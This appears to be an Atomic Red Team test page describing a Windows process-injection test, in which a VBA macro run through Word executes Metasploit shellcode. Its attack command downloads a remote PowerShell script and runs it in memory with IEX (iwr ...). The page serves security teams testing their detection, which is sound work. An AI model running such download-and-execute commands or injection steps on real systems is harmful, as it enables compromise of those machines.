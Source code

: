 <br/>

## Atomic Test #1 - Shellcode execution via VBA

This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows

**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048

#### Inputs:

| Name     | Description                              | Type | Default Value                                                         |
| -------- | ---------------------------------------- | ---- | --------------------------------------------------------------------- |
| txt_path | Path to file containing VBA macro to run | path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055-macrocode.txt |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```

#### Dependencies: Run with `powershell`!

##### Description: The 64-bit version of Microsoft Office must be installed

##### Check Prereq Commands:

```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```

##### Description: "#{txt_path}" must exist on disk at specified location
